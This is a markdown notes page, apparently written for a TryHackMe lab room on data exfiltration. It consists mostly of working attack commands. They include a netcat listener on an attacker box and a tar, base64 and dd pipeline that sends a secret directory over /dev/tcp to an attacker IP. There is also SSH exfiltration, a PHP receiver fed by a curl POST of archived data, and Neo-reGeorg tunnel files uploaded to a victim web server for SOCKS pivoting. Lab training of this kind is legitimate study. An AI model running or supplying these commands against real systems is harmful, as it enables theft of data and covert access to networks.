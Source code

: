 # Data Exfiltration Techniques

Reference: https://tryhackme.com/room/dataxexfilt

## TCP Socket Data Exfil

Prepare to receive file with netcat(on attacker box):
```
nc -lvp 8080 > /tmp/task4-creds.data
```

Use TCP Socket to exfiltrate data:

1. We used the tar command to create an archive file with the zcf arguments of the content of the secret directory.

2. The z is for using gzip to compress the selected folder, the c is for creating a new archive, and the f is for using an archive file.

3. We then passed the created tar file to the base64 command for converting it to base64 representation.

4. Then, we passed the result of the base64 command to create and copy a backup file with the dd command using EBCDIC encoding data.

5. Finally, we redirect the dd command's output to transfer it using the TCP socket on the specified IP and port, which in this case, port 8080.
```
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
```

Convert the data back to its original status(On attacker box):
```
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
```

Use the tar command to unpack the data(On attacker box):
```
tar xvf task4-creds.tar
```

## SSH Data exfiltration

Tar files and tansfer to another box via ssh and untar the files:
1. We used the tar command the same as the previous task to create an archive file of the task5 directory.

2. Then we passed the archived file over the ssh. SSH clients provide a way to execute a single command without having a full session.

3. We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.
```
tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

## HTTP Data exfiltration

Contact.php code:
```
<?php
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
}
?>
```

Extract files and send to webserver:
```
curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
```

Fix empty spaces in base 64 file with sed:
```
sudo sed -i 's/ /+/g' /tmp/http.bs64
```

## HTTP Tunneling

For HTTP Tunneling use the following project:

URL: https://github.com/L-codes/Neo-reGeorg

generate an encrypted client file to upload it to the victim web server:
```
python3 neoreg.py generate -k thm
```

Once the files are generated upload the file matching the target. So if apache running php. Upload the tunnel .php file to the server. 

Establish connection to tunnel file. 

```
python3 neoreg.py -k thm -u http://10.10.211.23/uploader/files/tunnel.php
```

Should be able to pull data over socks proxy:
```
curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
```




